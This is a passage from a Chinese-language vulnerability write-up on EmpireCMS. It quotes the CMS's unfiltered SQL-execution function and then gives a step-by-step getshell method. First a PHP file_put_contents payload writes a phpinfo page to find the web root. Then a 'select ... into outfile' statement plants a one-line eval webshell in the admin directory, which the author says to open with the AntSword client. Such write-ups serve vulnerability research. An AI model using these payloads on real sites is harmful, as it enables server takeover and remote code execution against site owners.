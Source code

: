 ```
//替换表前缀function RepSqlTbpre($sql){    global $dbtbpre;    $sql=str_replace('[!db.pre!]',$dbtbpre,$sql);    return $sql;}
```

转到定义 DoRunQuery，对 $query 进行处理。

对 $sql 参数只做了去除空格、以; 分隔然后遍历, 没有做别的限制和过滤, 导致可以执行恶意的 sql 语句

```
//运行SQLfunction DoRunQuery($sql){    global $empire;    $sql=str_replace("\r","\n",$sql);    $ret=array();    $num=0;    foreach(explode(";\n",trim($sql)) as $query)    {        $queries=explode("\n",trim($query));        foreach($queries as $query)        {            $ret[$num].=$query[0]=='#'||$query[0].$query[1]=='--'?'':$query;        }        $num++;    }    unset($sql);    foreach($ret as $query)    {        $query=trim($query);        if($query)        {            $empire->query($query);        }    \}\}
```

### payload

用 select ... into outfile 语句写入 php 一句话木马，但是这里需要知道存放的绝对路径，这里可以使用一个 phpinfo() 用第一种方法传上去

```
<?php file_put_contents("getshell.php","<?php phpinfo();?>");?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOiaTdEaIiaHkFq2UJ3GWK84F1PcItdA3SLe0QgSYfeWOao8FeYXFibqCjw/640?wx_fmt=png)

访问即可打出 phpinfo

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOfFoBzcPFsD4vcMhEDicfNVqt0Ylw7oqgMBibVOke8CQGhtoWmom6sXjA/640?wx_fmt=png)

这里只是找到了 php 的绝对路径，还不是 web 所存储的路径，这时候查看源代码搜索 DOCUMENT_ROOT 查询网站所处的绝对路径

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOhHmfhu6QmH8ic3KWV2s9K7fO0icwyXOIaUMZByhB0adwZfs9NBSfAf1g/640?wx_fmt=png)

用 select ... into outfile 语句写入 php 一句话木马

```
select '<?php @eval($_POST[LEOGG])?>' into outfile 'C:/phpStudy/PHPTutorial/WWW/EmpireCMS/e/admin/Get.php'
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOAdmLa6Acc5jdibTWperf6ia3iawLia2stQGicl1gLusrKuawSE4Td7GzjVA/640?wx_fmt=png)

看到上传已经成功

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOTtqfqVnlP7oJXSn4RkezWibeWONicnkRNnp8eAKI8giaMofvAZXhHs5FA/640?wx_fmt=png)

访问一下是存在的

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOQmvqLZa9A7yLReialSO8eotxGzD77WB9vJHzmbb9X9TL9MXKKYSVFPg/640?wx_fmt=png)

直接上蚁剑连接即可

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOnPwblP1NrJss1YOVsDeC6OqHIudwR8ib0iaficic3ibq7bsCmBxAoibic0iccQ/640?wx_fmt=png)
